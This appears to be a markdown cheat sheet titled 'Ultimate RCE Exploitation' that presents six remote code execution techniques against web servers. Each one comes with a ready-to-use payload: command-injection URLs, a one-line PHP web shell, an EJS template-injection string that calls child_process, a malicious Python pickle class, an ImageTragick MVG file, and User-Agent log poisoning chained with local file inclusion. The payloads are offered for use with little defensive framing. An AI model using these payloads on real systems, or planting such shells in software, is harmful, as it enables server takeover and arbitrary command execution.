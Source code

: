 # 🛡 Ultimate RCE Exploitation – Popular Vectors  
**By CybrX1337**

---

## 📜 Table of Contents  
1. [Command Injection](#1-command-injection)  
2. [PHP File Upload & Execution](#2-php-file-upload--execution)  
3. [Node.js Template Injection](#3-nodejs-template-injection)  
4. [Python Pickle Deserialization](#4-python-pickle-deserialization)  
5. [ImageMagick “ImageTragick”](#5-imagemagick-imagetragick)  
6. [Log Poisoning to RCE](#6-log-poisoning-to-rce)

---

## 1️⃣ Command Injection  
**MIME Context:** `application/x-www-form-urlencoded`, `multipart/form-data`  
**Description:** Inject system commands into vulnerable parameters processed by `exec()`, `system()`, `shell_exec()`, `popen()`, or backticks.  
**Example:**  
`https://example.com/ping?host=127.0.0.1;id`  
`https://example.com/test?cmd=ls%20-al`

---

## 2️⃣ PHP File Upload & Execution  
**MIME Context:** `application/x-php`, `application/octet-stream`  
**Description:** Upload `.php` or `.phtml` shells bypassing extension/MIME checks, then execute them directly.  
**Example:**  
Upload file: `shell.php`  
Access shell:  
`https://example.com/uploads/shell.php?cmd=id`  
Minimal PHP shell:  
```php
<?php system($_GET['cmd']); ?>

---

## 3️⃣ Node.js Template Injection  
**MIME Context:** `application/json`, `application/x-www-form-urlencoded`  
**Description:** SSTI in templating engines like EJS, Pug, or Handlebars allows execution of arbitrary JS/OS commands.  
**Example:**  
`https://example.com/profile?name=<%= global.process.mainModule.require('child_process').execSync('id') %>`

---

## 4️⃣ Python Pickle Deserialization  
**MIME Context:** `application/octet-stream`, `application/python-pickle`  
**Description:** Untrusted pickle data deserialized on the server can execute arbitrary Python code.  
**Example:**  
Upload crafted pickle to `https://example.com/api/upload`  
Python malicious pickle snippet:  
```python
import pickle, os
class RCE:
    def __reduce__(self):
        return (os.system, ('id',))
print(pickle.dumps(RCE()))

---

## 5️⃣ ImageMagick “ImageTragick”  
**MIME Context:** `image/svg+xml`, `image/mvg`  
**Description:** Malicious image files exploiting ImageMagick's delegate feature to execute commands.  
**Example:**  
Upload file `exploit.mvg` containing:  
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com"|ls "-al")'
pop graphic-context

---

## 6️⃣ Log Poisoning to RCE  
**MIME Context:** `text/plain`, `text/html`  
**Description:** Inject PHP code into server logs (access.log/error.log), then request the log file through LFI to execute.  
**Example:**  
Poison logs by setting User-Agent header to:  
```php
<?php system($_GET['cmd']); ?>
Access poisoned log:
https://example.com/index.php?page=/var/log/apache2/access.log&cmd=id
